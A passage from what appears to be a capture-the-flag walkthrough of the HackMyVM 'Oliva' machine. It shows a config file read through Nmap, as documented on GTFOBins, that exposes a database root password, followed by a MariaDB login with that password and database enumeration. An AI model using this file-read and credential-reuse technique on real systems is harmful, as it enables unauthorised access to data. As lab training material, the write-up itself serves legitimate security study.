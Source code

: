 ```bash
$dbname = 'easy';
$dbuser = 'root';
$dbpass = 'Savingmypass';
$dbhost = 'localhost';
?>
<a href="oliva">CLICK!</a>

NSE: failed to initialize the script engine:
<SNIP>
QUITTING!
```

The techniques used above to read files using Nmap can be found on [GTFOBin](https://gtfobins.github.io/gtfobins/nmap/#file-read).
![](/assets/img/posts/walthrough/hackmyvm/2024-09-16-oliva/gtfobin-screenshot.png)

We see that this file contains the database password of the user root. Note that the root user of the database is not always the root user of the system. Let's connect to the database using these credentials and enumerate them further.
```bash
oliva@oliva:~$ mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 17
Server version: 10.11.3-MariaDB-1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| easy               |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0,015 sec)

MariaDB [(none)]> use easy
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
```